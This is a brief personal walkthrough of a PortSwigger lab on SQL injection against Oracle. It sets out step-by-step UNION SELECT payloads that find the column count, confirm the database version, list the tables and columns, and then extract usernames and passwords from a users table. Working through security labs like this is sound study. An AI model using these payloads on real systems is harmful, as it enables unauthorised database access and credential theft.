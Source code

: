 https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
Look for the correct syntax, and check the number of columns: `'+UNION+SELECT+NULL,NULL+FROM+dual--`
Now to confirm it's an oracle `'+UNION+SELECT+NULL,banner+FROM+v$version--`
Now check the all_tables `/filter?category=Gifts'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
![[Pasted image 20241111130359.png]]
list the columns names where the table name is Users
`/filter?category=Gifts'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name+=+'USERS_PGFCYS'--`
Select the showed columns from that users table
`/filter?category=Gifts'+UNION+SELECT+PASSWORD_RCBKDA,USERNAME_CZFVMU+FROM+USERS_PGFCYS--`